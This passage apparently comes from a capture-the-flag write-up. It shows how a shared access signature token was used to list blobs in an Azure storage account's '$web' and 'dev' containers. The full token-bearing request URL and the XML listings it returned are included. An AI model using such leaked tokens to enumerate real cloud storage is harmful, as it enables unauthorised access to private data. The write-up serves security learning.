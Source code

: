 Once we have the container name, we could use the [List Blobs](https://learn.microsoft.com/en-us/rest/api/storageservices/list-blobs?tabs=azure-ad) operation to list the blobs under the specified container. For example, the following lists all blobs under the `$web` container.

`https://meowolympurr.blob.core.windows.net/$web?restype=container&comp=list&sv=2017-07-29&ss=b&srt=sco&sp=rl&se=2022-12-12T00:00:00Z&st=2022-09-01T00:00:00Z&spr=https&sig=UE2%2FTMTAzDnyJEABpX4OYFBs1b1uAWjwEEAtjeQtwxg%3D`

The `$web` container contains the static files served to us at the start of the challenge.

```markup
<EnumerationResults ServiceEndpoint="https://meowolympurr.blob.core.windows.net/" ContainerName="$web">
<Blobs>
<Blob>
<Name>error.html</Name>

...

</Blobs>
<NextMarker/>
</EnumerationResults>
```

The `dev` container, on the other hand, contained an interesting `readme.md` file.

```markup
<EnumerationResults ServiceEndpoint="https://meowolympurr.blob.core.windows.net/" ContainerName="dev">
<Blobs>
<Blob>
<Name>readme.md</Name>
<Properties>
<Last-Modified>Fri, 18 Nov 2022 03:23:56 GMT</Last-Modified>
<Etag>0x8DAC9145356C5EF</Etag>
<Content-Length>901</Content-Length>
<Content-Type>text/plain</Content-Type>
<Content-Encoding/>
<Content-Language/>
<Content-MD5/>
<Cache-Control/>
<Content-Disposition/>
<BlobType>BlockBlob</BlobType>
<AccessTier>Hot</AccessTier>
<AccessTierInferred>true</AccessTierInferred>
<LeaseStatus>unlocked</LeaseStatus>
<LeaseState>available</LeaseState>
<ServerEncrypted>true</ServerEncrypted>
</Properties>
</Blob>
</Blobs>
<NextMarker/>
</EnumerationResults>
```
